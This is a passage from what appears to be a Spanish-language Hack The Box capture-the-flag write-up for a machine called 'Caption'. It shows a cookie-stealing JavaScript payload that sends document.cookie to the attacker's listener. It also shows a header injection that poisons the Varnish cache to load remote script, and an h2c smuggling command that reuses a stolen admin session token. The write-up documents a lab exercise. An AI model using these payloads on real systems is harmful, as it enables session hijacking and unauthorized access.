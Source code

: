 basicamente necesitamos una cookie
para ello si capturamos la peticion en firewalls o en home veremos lo siguiente
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128183754.png)

Al analizar los resultados del Burp Suite, observamos un archivo JavaScript que obtiene recursos dinámicamente de una URL interna, utilizando el parámetro utm_source. Esto presenta una oportunidad para probar una posible manipulación inyectando cabeceras HTTP o cargas útiles para redirigir el JavaScript a una URL de recursos personalizada y ver si podemos anular la URL interna original.

Además, la respuesta incluye una cabecera X-Cache con un valor de MISS, que normalmente genera Varnish para indicar una pérdida de caché (probablemente la primera visita a la página web). La cabecera Cache-Control: public, max-age=120 revela que la caché caduca y se actualiza cada 2 minutos, lo que proporciona un breve margen para probar el comportamiento relacionado con la caché.


por lo que la forma de aprovecharnos de esto es la siguiente

nos ponemos en con un server python con el siguiente exploit para sacar la cookie
```javascript
(function stealCookies() {
    let xhr = new XMLHttpRequest();
    let cookieData = document.cookie;
    xhr.open("GET", "http://10.10.14.134:8000?cookies=" + encodeURIComponent(cookieData), true);
    xhr.send();
})();
```

y añadiremos la siguiente cavecera
```xmlr
X-Forwarded-Host: 127.0.0.1"> </script> <script src="http://10.10.14.134:8000/exploit.js"></script> <!--
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128184126.png)
veremos que se cambia la el link
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128184146.png)
y que nos llega la cookie con la que podemos ver los logs

```bash
 python3 .\h2csmuggler.py -x http://caption.htb http://caption.htb/logs  -H 'Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3ODMzMDE1fQ.dM4ER4PO6PF3ds83BD9rdEweUpCRxtazbHSDLR7BgJQ'
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Sat, 25 Jan 2025 18:25:53 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 169 65552
age: 17
via: 1.1 varnish (Varnish/6.6)
accept-ranges: bytes


<!DOCTYPE html>
<html lang="en" >

<head>
  <meta charset="UTF-8">

    <script src="https://cpwebassets.codepen.io/assets/common/stopExecutionOnTimeout-2c7831bb44f98c1391d6a4ffda0e1fd302503391ca806e7fcc7b9b87197aec26.js"></script>


  <title>Caption Portal Login</title>

```